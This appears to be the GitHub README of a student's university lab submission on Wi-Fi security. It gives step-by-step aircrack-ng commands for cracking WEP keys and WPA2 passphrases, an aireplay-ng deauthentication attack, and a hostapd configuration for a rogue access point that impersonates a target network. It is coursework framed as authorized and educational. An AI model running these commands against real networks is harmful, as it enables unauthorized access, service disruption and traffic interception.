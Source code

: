 # Wireless Penetration Testing: WEP/WPA2 Cracking & Rogue AP Simulation
![Status](https://img.shields.io/badge/Status-Completed-green)  
![Tech](https://img.shields.io/badge/Tools-Aircrack--ng%20%7C%20Wireshark%20%7C%20Scapy-blue)  

## 📌 Overview  
This repository contains my submission for **Lab 4: Wi-Fi Security**, where I explored vulnerabilities in wireless networks, including:  
- Cracking WEP encryption  
- Cracking WPA2 encryption  
- Performing deauthentication attacks  
- Simulating rogue access points  

This project demonstrates **ethical hacking techniques** used in penetration testing for assessing and strengthening Wi-Fi security.  

---

## 📖 Table of Contents  
- [Key Topics Covered](#key-topics-covered)  
- [Files Included](#files-included)  
- [Tools & Technologies Used](#tools--technologies-used)  
- [Methodology](#methodology)  
- [Ethical Considerations](#ethical-considerations)  
- [Learning Outcomes](#learning-outcomes)     
- [Contact](#contact)
- [Acknowledgements](#acknowledgements)  

---

## 🛠 Key Topics Covered  
- **Cracking WEP Encryption**: Used `aircrack-ng` to recover WEP keys by analyzing captured IVs.  
- **Breaking WPA2-PSK Encryption**: Captured WPA2 handshake and used dictionary attacks.  
- **Deauthentication Attacks**: Exploited CVE-2019-16275 to disconnect clients from a Wi-Fi network.  
- **Rogue Access Point Attack**: Set up a fake AP and captured victim traffic.  

---

## 📂 Files Included  
| File Name | Description |  
|-----------|------------|  
| `Group11_Lab4.pdf` | Detailed report with methodology and findings |  
| `Lab4_wifi_Fall2024.pdf` | Original lab instructions |  
| `scripts/deauth-students.py` | Python script for deauthentication attack |  
| `captures/wep_crack.pcap` | Packet capture file used for WEP cracking |  
| `captures/wpa_handshake.pcap` | Packet capture file containing WPA handshake |  
| `wordlists/passwords.txt` | Wordlist used for WPA cracking |  

---

## 🔧 Tools & Technologies Used  
- **Aircrack-ng Suite** (`Airmon-ng`, `Airodump-ng`, `Aircrack-ng`, `Aireplay-ng`)  
- **Wireshark** – Network packet analysis  
- **Scapy** – Packet manipulation & forging  
- **Python** – Scripting for automated attacks  
- **Linux CLI (Ubuntu VM)** – Running security tools 
- **TPLink TL-WN722N Wi-Fi Adapter** 

---

## 🔍 Methodology  

### **0️⃣ Environment Setup**

```bash
sudo apt update
sudo apt install -y aircrack - ng

sudo apt install wireshark

git clone https :// github . com / secdev / scapy . git
cd scapy
sudo python3 setup . py install

sudo apt update
sudo apt upgrade
sudo apt install -y realtek - rtl8188eus - dkms
```

```bash
iwconfig # Indentify the inteface of the wifi adapter

# replace < interface > with the interface of the wifi adapter
sudo ifconfig < interface > down
sudo airmon - ng check kill
sudo iwconfig < interface > mode monitor
sudo ifconfig < interface > up
iwconfig
# This enables monitor mode 
```

---

### **1️⃣ Cracking WEP Encryption**  
- Enabled **monitor mode** using `airmon-ng`.  
- Captured packets using `airodump-ng`.  
- Used **IVs** to decrypt the key with `aircrack-ng`.  

```bash
# Start monitor mode
sudo airmon-ng start wlan0

# Capture packets
sudo airodump - ng wlan0mon -w < dump file >

# Crack WEP keykey
aircrack - ng -n 64 -b <AP_MAC_address> <dump file>. pcap
```
- Add the key in wireshark to decrypt the packets. (Edit > Preferences > Protocols > IEEE 802.11 > Decryption keys.Make sure to choose the protocol as wep.)

### **2️⃣ Cracking WPA2 Encryption**  
- Captured **4-way handshake** using `airodump-ng`.  
- Used dictionary attack with `aircrack-ng`.  

```bash
# Capture handshake
sudo airodump - ng wlan0mon -w <dump_file > -c <channel>

# Crack WPA2 password
sudo aircrack - ng -a 2 -b < AP_MAC_address > -w <word_file> <dump_file> (I used passwords.txt as the word file) 
```
- 

### 3️⃣ Deauthentication Attack
- Used aireplay-ng to send deauthentication frames, disconnecting clients.
- Exploited CVE-2019-16275 for forced disconnection.

```bash
sudo aireplay-ng --deauth 100 -a <AP_MAC> -c <Client_MAC> wlan0mon
```

### 4️⃣ Rogue Access Point Attack
- Created a fake AP using hostapd to capture victim traffic.
- Used Wireshark to analyze captured packets.

```bash
#Create hostapd.conf and add the following lines
ctrl_interface=/var/run/hostapd
driver=nl80211
ssid=<target AP>
channel=<target channel>
hw_mode=g
ieee80211n=1
ieee80211w=2
auth_algs=< target algorithm >
wpa=< target WPA version >
wpa_key_mgmt=< target MGMT >
rsn_pairwise=< target paiwise >
wpa_passphrase=< target password >
```
```bash
sudo systemctl restart apache2
sudo hostapd hostapd.conf
```

---

## ⚖️ Ethical Considerations

⚠️ Disclaimer: This project was conducted in a controlled lab environment as part of an exercise in cybersecurity. Unauthorized Wi-Fi penetration testing is illegal without explicit permission. The purpose of this lab was to understand security weaknesses and develop skills for ethical hacking and cybersecurity defense."

### Key ethical principles followed:

✅ Responsible Disclosure – Understanding vulnerabilities to help secure networks.
✅ No Unauthorized Testing – Experiments were performed in a controlled environment with instructor approval.
✅ Security Awareness – The findings from this lab help reinforce best security practices for network protection.

## 🎯 Learning Outcomes

By completing this lab, I gained the following skills:

✅ Hands-on experience with Wi-Fi security – Analyzed encryption flaws in WEP and WPA2.
✅ Packet Sniffing & Analysis – Used Wireshark to capture and inspect wireless traffic.
✅ Cracking Encryption Keys – Learned how dictionary attacks and IV collection work against WPA2 and WEP.
✅ Ethical Hacking Techniques – Performed deauthentication attacks and rogue AP simulations.
✅ Understanding Countermeasures – Explored network defense strategies, including WPA3, VPNs, and intrusion detection.

---

### 📩 Contact
For any inquiries, feel free to reach out via:
📌 LinkedIn: www.linkedin.com/in/pranavs07

---

### 📚 Acknowledgements
Parts of this lab were originally written by Simon Thoustrup, Sigurd Hilbert Madsen and Frej Laursen
W¨urtz. Later on, parts of these exercises were re-written/edited by Kasper Rasmussen and then edited
by Davide Zanetti, Ghassan Karame, Luka Maliˇsa, Joel Reardon and Nikos Karapanos. Addition of the
deauthentication attack, has been done by Domien Schepers, while addition of the rogue access points and
latest editing/updating of all sections has been done by Evangelos Bitsikas. This lab was completed under the supervision of Dr. Aanjhan Ranganathan.